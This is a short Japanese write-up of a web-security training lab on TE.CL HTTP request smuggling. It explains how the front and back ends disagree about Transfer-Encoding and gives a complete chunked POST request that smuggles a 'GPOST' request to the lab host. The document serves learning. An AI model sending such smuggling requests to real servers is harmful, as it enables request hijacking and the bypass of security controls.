 ![](./images/README_231013_150242.png)

## HTTP request smuggling, basic TE.CL vulnerability

### Goal
これもGPOSTにすればﾖｼです。

### Analyze

Front-endがTransfer-Encodingをサポートしていて、Back-endがTransfer-Encodingをサポートしていないラボです。

つまり、Transfer-EncodingですべてのRequest本文をBack-endに転送させ、Content-Lengthを利用してBack-endの解釈をいじり分割すれば良さそうです。

`request例`
```text
POST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

9e
GPOST / HTTP/1.1
Host: 0a3d002704a22ff480ae352b0080000e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

body=
0

```
